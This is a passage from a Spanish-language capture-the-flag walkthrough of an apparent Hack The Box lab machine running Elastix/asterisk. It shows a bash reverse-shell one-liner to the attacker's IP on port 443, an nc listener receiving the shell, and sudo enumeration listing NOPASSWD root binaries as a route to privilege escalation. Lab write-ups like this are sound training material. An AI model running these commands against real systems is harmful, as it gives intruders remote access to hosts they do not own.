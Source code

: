 ```bash
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:628 errors:0 dropped:0 overruns:0 frame:0
          TX packets:456 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:100256 (97.9 KiB)  TX bytes:111602 (108.9 KiB)
          Interrupt:59 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:7558 errors:0 dropped:0 overruns:0 frame:0
          TX packets:7558 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1124965 (1.0 MiB)  TX bytes:1124965 (1.0 MiB)
$
```

Nos encontramos dentro de la máquina, ahora para trabajar un poco mas ordenados; nos establecemos una conexión hacia nuestro equipo de atacante; por lo que ejecutamos el siguiente com ando y nos ponemos en escucha por el puerto 443:

```bash
$ bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"
$
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.7] 56804
bash: no job control in this shell
bash-3.2$ whoami
asterisk
bash-3.2$
```

Hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) y comenzamos con la enumeración de los permisos que tiene el usuario *asterisk*:

```bash
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$
```